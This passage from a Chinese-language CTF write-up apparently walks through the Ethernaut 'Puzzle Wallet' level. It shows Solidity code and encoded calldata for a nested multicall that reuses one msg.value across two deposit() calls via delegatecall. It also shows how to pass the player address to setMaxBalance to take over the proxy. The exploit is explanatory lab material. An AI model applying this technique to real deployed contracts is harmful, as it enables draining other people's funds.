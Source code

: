 要成功调用`execute`,  则需要满足 `require(balances[msg.sender] >= value, "Insufficient balance");` 也就是 `require(balances[wallet_address] >= value, "Insufficient balance"`

目前的情况是 `balances[wallet_address]` 为0 ,  ` address(wallet_address).balance`为0.001ether

要 `balances[wallet_address]` 大于或等于我们需要消耗掉的value, 则需要调用通过delegatecall(也就是通过`multicall`)来调用 `deposit()`以更新`balances[wallet_address]`的值



> 关键点: 如果不正确处理，对消耗ETH的操作进行迭代会导致问题。即使花费了ETH，msg.value也会保持不变，所以开发者必须在每次迭代时手动跟踪实际的剩余金额。在使用多调用模式(multi-call)时，这也会导致问题，因为对一个本身看起来很安全的函数执行多个委托调用，可能会导致不需要的ETH转移，因为委托调用会保持发送到合约的原始msg.value。



<img src="https://github.com/yinhui1984/imagehosting/blob/main/images/1676866951112113000.png?raw=true" alt="image" style="zoom:50%;" />





```solidity
        bytes[] memory depositSelector = new bytes[](1);
        depositSelector[0] = abi.encodeWithSelector(proxy.deposit.selector); //0xd0e30db0
        bytes[] memory nestedMulticall = new bytes[](2);
        nestedMulticall[0] = abi.encodeWithSelector(proxy.deposit.selector); //0xd0e30db0

        //0xac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000
        nestedMulticall[1] = abi.encodeWithSelector(proxy.multicall.selector, depositSelector);

```

使用编码后的参数调用multicall, 参数为

```
["0xd0e30db0","0xac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000"]
```





![image](https://github.com/yinhui1984/imagehosting/blob/main/images/1676867867050403000.png?raw=true)



![image](https://github.com/yinhui1984/imagehosting/blob/main/images/1676868241590320000.png?raw=true)



将player地址转换为uint256, 比如 0x37bd42f4cF5785F5A36244e4800636cE5787d5e8 转换后为318215165953207128467949000302095245846828799464, 传入`setMaxBalance`

![image](https://github.com/yinhui1984/imagehosting/blob/main/images/1676868314768135000.png?raw=true)


